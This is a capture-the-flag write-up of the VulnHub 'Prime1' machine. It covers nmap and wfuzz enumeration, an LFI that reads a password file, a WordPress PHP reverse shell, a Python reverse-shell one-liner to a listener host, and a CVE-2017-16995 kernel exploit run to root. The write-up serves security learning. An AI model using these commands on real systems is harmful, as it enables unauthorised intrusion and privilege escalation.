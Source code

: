 ```yaml
---
layout : post
title: Prime1 Writeup
image : prime-1.png
date: 2021-07-22 10:18 +0530
tags: [WordPress Exploitation ,Kernel Exploit 4.10.0-28-generic , Parameter Fuzzing , LFI ] 
---
```


In this walkThrough we'll exploit this machine using wordpress , but need to enumerate hard to get the wordpress creds , and for PE this machine is vulnerable to Kernal exploit , experienced the rabbit holes , at Bruteforcing the victor password , and once weget into machine the is sudo executable but not at all used to get root shell  

# Nmap

```
nmap -sCV -p- -vvv 10.0.2.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 03:02 BST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Initiating Ping Scan at 03:02
Scanning 10.0.2.104 [2 ports]
Completed Ping Scan at 03:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:02
Completed Parallel DNS resolution of 1 host. at 03:02, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:02
Scanning 10.0.2.104 [65535 ports]
Discovered open port 22/tcp on 10.0.2.104
Discovered open port 80/tcp on 10.0.2.104
Completed Connect Scan at 03:02, 31.15s elapsed (65535 total ports)
Initiating Service scan at 03:02
Scanning 2 services on 10.0.2.104
Completed Service scan at 03:02, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.0.2.104.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Nmap scan report for 10.0.2.104
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-07-22 03:02:02 BST for 38s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.96 seconds

```

# Enumeration 

Web Enumeration 

using drib , secret.txt is found

![]({{site.baseurl}}/img/vulnhub/prime1/text.png)

Then start fuzzing the parameter for php pages

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 --hc 404 http://10.0.2.104/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.2.104/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"  
```

so we find that file a paremeter , now lets fuzz for any lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/location.png)


thwn we can movw to image.php there we'll fuzz for lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/etc.png)

yes now we have the right lfi , and also it menctioned that there is a password file at /home/saket directory 

![]({{site.baseurl}}/img/vulnhub/prime1/lfi2.png)

now we have the passwd , lets try to use for wordpress 

# Exploitation 

now its easy to get into machine via wordpress

lets inject the php code into a file which returns us a reverse shell

![]({{site.baseurl}}/img/vulnhub/prime1/secret.png)

need to curl the phpfile to get a reverseshell

```
curl http://10.0.2.104/wordpress/wp-content/themes/twentynineteen/secret.php
```

nice we get a reverse shell

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.104] 43204
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:10:13 up  1:43,  1 user,  load average: 0.05, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-gy tty7     :0               21:10    2:04m  2.74s  0.22s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export RHOST="10.0.2.93";export RPORT=5555;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# PrivilageEsclation 

Kernal exploit 

```

uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

this version is vulnerable to kernal exploit 

[Here is the link to the kernal exploit ](https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995)

```
www-data@ubuntu:/tmp$ gcc explit.c -o exploit
gcc explit.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff92c47b659200
[*] Leaking sock struct from ffff92c47745f800
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff92c4789396c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff92c4789396c0
[*] credentials patched, launching shell...
# whoami
whoami
root

```